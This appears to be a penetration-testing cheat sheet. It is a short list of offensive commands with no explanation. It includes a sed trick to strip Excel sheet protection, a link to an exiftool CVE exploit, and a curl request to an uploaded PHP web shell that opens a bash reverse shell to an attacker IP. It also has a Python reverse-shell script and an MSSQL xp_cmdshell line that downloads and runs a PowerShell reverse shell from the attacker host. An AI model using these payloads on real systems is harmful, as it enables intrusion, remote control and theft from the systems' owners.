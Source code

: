 ### Unprotect Spreadsheet (xlsx)

[http://www.excelsupersite.com/how-to-remove-an-excel-spreadsheet-password-in-6-easy-steps/](http://www.excelsupersite.com/how-to-remove-an-excel-spreadsheet-password-in-6-easy-steps/)

```bash
unzip bla.xlsx
sed -i 's/<sheetProtection[^>]*>//' xl/worksheets/sheet2.xml
zip -fr bla.xlsx *
```

### EXIF Tool

```bash
https://github.com/convisolabs/CVE-2021-22204-exiftool
```

### RCE Generator

[https://www.revshells.com/](https://www.revshells.com/)

```bash
curl -G http://$ip/uploads/shell.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/$kali_ip/443 0>&1'"
```

### Python Reverse Shell Codes

```bash
import pty
import socket
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("$kali_ip",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()
```

### PowerShell Reverse Shell

```bash
wget https://raw.githubusercontent.com/rioasmara/wordpress/master/rev.ps1
```

```bash
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://$kali_ip/rev.ps1") | powershell -noprofile'
```

### HTA Reverse Shell

[https://lisandre.com/archives/11205](https://lisandre.com/archives/11205)
